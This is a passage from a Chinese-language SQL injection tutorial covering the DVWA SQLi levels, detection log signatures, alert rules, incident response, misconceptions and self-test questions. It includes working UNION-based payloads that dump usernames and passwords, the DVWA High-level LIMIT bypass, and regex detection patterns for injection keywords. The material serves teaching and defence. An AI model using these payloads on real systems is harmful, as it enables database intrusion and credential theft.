- [ ] 所有 SQL 值一律参数化绑定（搜：`+ sql`、`query(`、`raw(`、`${`、`extra(`、`execute(` 拼接）
- [ ] ORDER BY / 表名 / 列名 → 白名单映射
- [ ] PDO 模拟预编译显式关闭（按需评估兼容性）
- [ ] 数据库应用账号最小权限、无 FILE/SUPER
- [ ] 生产错误信息统一处理，不回显 SQL 错误
- [ ] 入库数据二次使用时同样参数化（防二阶注入）
- [ ] 日志记录足够定位注入尝试（见 §13）

---

## 12. DVWA Low → High 逐级利用与代码审计差异

DVWA SQLi 模块四个级别是「漏洞修补演进史」的标准教材。

### 12.1 Low（见 §4）

- 源码特征：`$_REQUEST` 直拼 + 报错回显。
- 利用：UNION 全流程可行，报错/盲注亦可。

### 12.2 Medium

```php
// DVWA v1.9 source/medium.php（节选）
$id = $_POST['id'];
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id";   // 注意：无引号
```

- 防御：POST 表单 + `mysqli_real_escape_string`。
- 仍然可注入的根因：**user_id 在 SQL 里没有引号包裹（数字型拼接）**，注入根本不需要引号，转义函数没有用武之地。
- 利用（Burp 改 POST 包）：

```text
id=1 UNION SELECT user,password FROM users&Submit=Submit
（数字型，无需闭合引号；无 # 也行，或用 -- 注释）
```

### 12.3 High

```php
// source/high.php（节选）
$id  = $_SESSION['id'];                      // id 从 session 取，输入在另一页面
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
$result = mysqli_query(...);
```

- 防御意图：输入点分离（session 传递）+ `LIMIT 1`，试图干扰 UNION 回显。
- 绕过：注释掉 LIMIT 即可——

```text
1' UNION SELECT user,password FROM users#
```

教训：`LIMIT 1` 不是安全机制；输入通道再绕，进 SQL 前不参数化就是漏洞。

### 12.4 Impossible（标准答案）

```php
// source/impossible.php（节选）
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
// 且：Anti-CSRF token、try/catch、is_numeric 前置校验
```

四层：Anti-CSRF token、输入类型校验、**PDO 预编译**、统一异常处理。对照 Low 与 Impossible 的 diff，就是本篇防御章节的浓缩。

---

## 13. 检测与应急：日志特征与告警

### 13.1 Web 日志中的注入特征

```text
# 典型访问日志片段（Nginx）——同一 URI 中出现 SQL 语法特征：
GET /product.php?id=1'%20UNION%20SELECT%20user,password%20FROM%20users-- HTTP/1.1" 200
GET /news.php?id=1%20AND%20SLEEP(5)              → 同源 IP 响应时间恒 ~5s
GET /item?id=1%20AND%20ascii(substring(...))>79  → 高频同前缀请求（盲注指纹）
User-Agent: sqlmap/1.8.x                         → 直接实锤
# 异常：对同一参数的大量 500/错误页、URI 中含 information_schema、concat(、0x7e
```

### 13.2 告警规则思路（蓝队视角）

| 维度 | 规则示例 |
|------|---------|
| URI/参数关键字 | `union\s+select`、`information_schema`、`sleep\(`、`waitfor`、`0x7e`、`ascii\(substring`（需 URL 解码后再匹配） |
| 行为 | 单 IP 对单参数短窗口内高频率、差异微小的请求（盲注）；大量参数变形 |
| 时间侧信道 | 响应时间分布二值化（大量 ~5.0x s） |
| 数据库侧 | MySQL general log 中非常规 SELECT、错误日志中 XPATH syntax error 暴涨 |
| WAF | sqlmap 默认特征（UA/payload 结构）+ 通用规则集 |

### 13.3 应急响应流程（发现疑似 SQLi 后）

```text
1. 阻断：封禁攻击源 IP（WAF/防火墙/负载均衡）
2.取证：保全 Web 访问日志、数据库日志、WAF 日志（勿直接重启清缓存）
3. 评估影响：攻击 payload 涉及哪些表？是否出现 INTO OUTFILE / 堆叠 / 管理表查询？
   核对数据导出痕迹、异常大结果集查询
4. 修复：定位注入点 → 参数化改造（对照 §11.7 清单）
5. 复测：授权渗透复测/回归用例确认修复
6. 复盘：密码字段是否需要轮换（若拖库痕迹 → 强制用户重置 + 通知义务评估）
```

---

## 14. 常见误区

| 误区 | 事实 |
|------|------|
| 「转义了引号就安全」 | 数字型拼接不需要引号；宽字节可吃掉转义；报错注入不一定需要引号 |
| 「用了 ORM 就免疫」 | `raw/extra/${}/whereRaw` 逃生舱仍可注入（§10） |
| 「过滤 `union select` 关键字就行」 | 大小写、注释拆分（`uni/**/on`）、编码、同义改写（`||`）绕过极多，黑名单天然劣势 |
| 「数据库报错关掉=修复」 | 只是关掉一条利用通道，盲注依然可行 |
| 「WAF 挡住了=安全」 | WAF 提高成本而已，不是修复 |
| 「内部系统/无回显=无危害」 | 时间盲注、带外注入、二阶注入都专门针对无回显场景 |
| 「POST 接口更安全」 | 请求方法与可注入性无关，Burp 改包即可 |

---

## 15. 自测问题

1. 用一句话向非安全同事解释 SQL 注入的成因，并说出**根本性修复方案**及其原理（预编译两阶段）。
2. UNION 注入前两步为什么是 ORDER BY 定列数、找显示位？列数不匹配会发生什么？
3. 布尔盲注与时间盲注各自的适用前提是什么？二分法把每字符请求次数从多少降到多少？
4. 为什么 `ORDER BY ?` 参数化会失效？正确的防御代码怎么写？
5. MyBatis `#{}` 与 `${}` 的底层差异是什么？全局搜 `${` 审计时如何区分真实漏洞与误报？
6. 宽字节注入的两个复现前提条件是什么？为什么参数化可以根治？
7. DVWA Medium 用了 `mysqli_real_escape_string` 为什么仍然可注入？
8. 二阶注入中，注册接口参数化无误，漏洞究竟出在哪一环？
9. 检测侧：除了关键字，哪两种**行为特征**可以识别盲注（提示：频率、时间）？
10. 设计题：给一个「按用户传入列名排序」的需求，写出安全实现的伪代码。
11. 为什么 `FILE` 权限要从严？它配合哪些 SQL 语法构成高危组合？
12. 上机任务：在本地 DVWA 分别用手工与 sqlmap 完成 Low 级 UNION 注入，再审计 Impossible 源码列出全部防御点。

---

## 16. 小结

- SQLi 本质 = **数据混入语法**；根治 = 预编译把语法固化与数据填充分离。
- 利用技术选型按「回显能力」降级：UNION → 报错 → 布尔盲 → 时间盲 → 带外。
- 标识符（表/列/排序）不可参数化 → 白名单；值 → 永远参数化。
- ORM 有逃生舱，MyBatis `${}` 是审计第一入口。
- 防御是分层体系：参数化（本）+ 最小权限 + 错误管理 + 校验 + WAF + 监控（标）。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「2.1 错误写法（字符串拼接）」节 · 用户输入拼接进 SQL 的执行链 | flowchart TD |
| 「2.2 正确写法（参数化查询 / 预编译）」节 · 预编译三步流程 | flowchart TD |
| 「3. 分类详解：六种注入类型及适用场景」节 · 注入类型决策树 | flowchart TD |
| 「11. 防御专章（重点）」节 · 防御层级金字塔 | flowchart TD |
| 「11.1 参数化查询原理图」节 · 应用/数据库预编译时序 | sequenceDiagram |
| 「4.7 通用流程总结」节 · UNION 注入通用流程图 | flowchart LR |
